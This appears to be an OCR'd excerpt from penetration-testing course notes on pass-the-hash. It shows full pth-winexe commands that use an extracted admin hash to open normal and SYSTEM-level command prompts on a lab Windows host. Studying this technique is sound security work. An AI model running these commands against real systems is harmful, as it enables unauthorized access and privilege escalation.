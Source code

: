 Windows accepts hashes instead of passwords to
authenticate to a number of services.

We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash.

1.Extract the admin hash from the SAM in the previous step.

2.Use the hash with pth-winexe to spawn a command prompt:

pth-winexe -U
'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c
4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe


3.Use the hash with pth-winexe to spawn a SYSTEM level command prompt:


 pth-winexe --system -U
'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c
4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe



